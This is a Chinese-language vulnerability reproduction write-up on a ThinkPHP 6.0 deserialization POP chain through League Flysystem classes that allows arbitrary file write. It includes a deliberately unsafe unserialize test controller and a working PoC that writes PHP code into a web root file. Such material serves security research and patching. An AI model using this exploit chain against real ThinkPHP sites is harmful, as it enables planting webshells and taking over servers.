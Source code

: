 # Thinkphp 6.0 任意文件写入pop链

### 一、漏洞简介

需要知晓绝对路径

### 二、漏洞影响

Thinkphp 6.0

### 三、复现过程

环境搭建

ThinkPHP6.0.2

PHP7.2


```php
<?php
namespace app\controller;
use app\BaseController;

class Index extends BaseController

    public function test(){
        echo base64_decode($_POST['payload']);
        $payload = unserialize(base64_decode($_POST['payload']));
    }
}
```

漏洞分析

POP链：


```bash
League\Flysystem\Cached\Storage\AbstractCache --> destruct()
League\Flysystem\Cached\Storage\Adapter --> save()
League\Flysystem\Adapter\Local --> write()
vendor/league/flysystem-cached-adapter/src/Storage/AbstractCache.php
```

![](images/15893491700297.jpg)


因AbstractCache类为抽象类，需找到其实现子类，且要有save()方法

成功找到：vendor/league/flysystem-cached-adapter/src/Storage/Adapter.php

![](images/15893491760662.jpg)


$contents决定文件写入内容，显然可向$this->complete或$this->expire写入具体内容即可

![](images/15893491830470.jpg)


接下来需找到具有write()方法的类，vendor/league/flysystem/src/Adapter/Local.php中Local类符合条件

![](images/15893491901746.jpg)


但ensureDirectory()对利用造成了影响，将对目录进行检测，因而造成必须使用绝对路径

![](images/15893491964679.jpg)


### 漏洞复现

根据分析写出poc

该利用链较为鸡肋，要求必须知晓写入文件的绝对路径


```php
<?php
namespace League\Flysystem\Cached\Storage;#AbstractCache Adapter
use League\Flysystem\Adapter\Local;
abstract class AbstractCache{
    protected $autosave = true;
    protected $cache = [];
    protected $complete = [];
    function __construct(){
        $this->autosave = false;
        $this->cache = ['test'];
        $this->complete = ["axin"=>"<?php phpinfo();?>"];
    }
}

class Adapter extends AbstractCache{
    protected $adapter;
    protected $file;
    protected $expire = null;

    function __construct(){
        parent::__construct();
        $this->adapter = new Local();
        $this->file = "var/www/html/index.php";
        #$this->file = "://WampServer/www/tp/tp6.0.1/public/index.php"; #winsows下目录
        $this->expire = 123;
    }
}

namespace League\Flysystem\Adapter;
abstract class AbstractAdapter{
    protected $pathPrefix;
    function __construct(){
        $this->pathPrefix = "/";
        #$this->pathPrefix = "D";  #windows下目录
    }
}
class Local extends AbstractAdapter{

}
use League\Flysystem\Cached\Storage\Adapter;
echo base64_encode(serialize(new Adapter()));
```

![](images/15893492120723.jpg)


效果演示：自己构造一个反序列化输入点，发送请求(页面的输出是我自己方便调试打印的)

![](images/15893492190630.png)


文件成功写入：

![](images/15893492255401.png)


参考链接

http://pines404.online/2020/01/20/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/ThinkPHP/ThinkPHP6.0%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%93%BE(%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5)%E5%88%86%E6%9E%90/

https://www.anquanke.com/post/id/194269